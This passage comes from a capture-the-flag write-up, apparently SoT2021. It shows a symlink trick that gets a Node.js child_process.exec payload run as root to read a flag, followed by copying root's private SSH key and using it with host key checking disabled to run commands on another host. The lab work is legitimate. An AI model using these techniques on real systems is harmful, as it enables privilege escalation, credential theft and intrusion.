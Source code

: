 I decide to give this a go, so I write the same test as before (`require('child_process').exec('/usr/bin/id > /tmp/idtest')`) into the file owned by root `/root/test.js`, then create a symlink to `/root/test.js` in the `app` folder.

```
$ cat /tmp/idtest
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Success. I use this exact technique to write the contents of `/root/flag.txt` into `/tmp/rootflag.txt` using `require('child_process').exec('cat /root/flag.txt > /tmp/rootflag.txt')`

```
$ cat /tmp/rootflag.txt
SoT2021_Flag{bd4b3b87ba0f8b59f473695a2039997a}
```

# Flag 16: Filesystem #3

During exploring the system for the previous flag, there was a `/root/.ssh` folder, so I decide to check that for any goodies.

`ls -la /root/.ssh`

```
total 8
drwxr-xr-x    2 root     root            46 Aug 27 09:35 .
drwxr-xr-x    1 root     root            36 Aug 27 10:02 ..
-rw-r--r--    1 root     root           399 Aug 27 09:26 id_ed25519
-rw-r--r--    1 root     root            92 Aug 27 09:26 id_ed25519.pub
```

I copy both of these to a folder owned by my user so I can edit them, and then I print out the public key to see if I can find any ownership information in the comment:

`cat id_ed25519.pub`

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL+gjDM5dzGsNKf4N6Fa8QJMgMbqEJvkfwRe1EDqxURp tickets@db
```

As I've not got a full shell, only a crappy netcat listener, I can't use anything that'll need a full TTY, however ssh can be used to just run commands, so I decide to just try that for now. I need to disable checking the host key, however, as that needs a full TTY for the prompt. 

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ls -lah`

```
total 16K
drwxr-xr-x 1 tickets tickets   85 Aug 27 10:24 .
drwxr-xr-x 1 root    root      21 Aug 27 09:36 ..
-rw-r--r-- 1 tickets tickets  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 tickets tickets 3.5K Apr 18  2019 .bashrc
-rw-r--r-- 1 tickets tickets  807 Apr 18  2019 .profile
drwxr-xr-x 1 tickets tickets   29 Aug 27 09:36 .ssh
-rw------- 1 tickets tickets   41 Aug 27 10:15 flag.txt
```
